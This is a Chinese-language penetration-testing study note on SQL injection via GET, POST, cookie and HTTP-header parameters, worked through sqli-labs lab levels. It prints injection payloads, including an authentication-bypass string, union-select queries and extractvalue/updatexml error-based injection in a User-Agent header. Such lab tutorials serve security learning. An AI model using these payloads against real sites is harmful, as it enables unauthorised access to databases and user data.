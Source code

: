 ```yaml
---
title: 05-mysql提交方式注入
categories:
- 渗透测试
tags:
- 渗透测试
abbrlink: '462247e6'
date: 2020-02-08 15:51:54
---
```

  
# 常见提交方式下的注入漏洞

>前言：WEB应用在数据传递接受中，针对SQL注入安全漏洞，由于数据大小，格式等原因，脚本在接受传递时会有多种传递方式，传递方式的不同将影响到安全测试的不同！本课将针对此类问题进行逐一讲解。


  
## 第一点：数据常见提交方式

`https://www.cnblogs.com/weibanggang/p/9454581.html`





  
## 第二点：产生注入的接受方式

例子：GET
POST：
COOKIE ：
REQUEST ：     $_REQUEST()  何种方法都可以接参数
SERVER： http头部注入。$_SERVER           https://www.cnblogs.com/jianmingyuan/p/5900064.html
等





## 第三点：实战测试案例-sqlilabs关卡

#### post登陆框注入-sqlilabs less13

涉及知识点:   万能密码

Less-13 无回显
Less-11 有回显

```sql
-- 一般是没有括号的，先手工，再工具试试有没有其他符号干扰
-- 可以用hackbar等进行post参数注入

-- 方法1
')or 1=1 -- + 
-- 然后开始按照步骤开始利用 （盲猜  order by 3, 库名，表，列，数据）
admin') union select null,database()#
-- 这里面没回显数据的 地方，想办法让他报错/工具跑
-- sqlmap  post参数是  --data ""

-- 下面的没成功， 可以再试试
admin') union select count(*), concat(select database()) as admin from information_schema.tables group by admin\

-- 报错注入
admin') and extractvalue(1,concat(0x7e,(select database()),0x7e))#


+加号类似空格  


```

#### http头部注入-sqlilabs less18

$_SERVER()

比如站长之家获取我的浏览器的数据，其中http头部可以修改（你懂得）

```sql

```




#### cookie修改注入-sqlilabs less20

无回显  

```sql
-- 大概是这样
User-Agent: admin' or updatexml(1,concat(0x7e,database(),0x7e),0) or '


```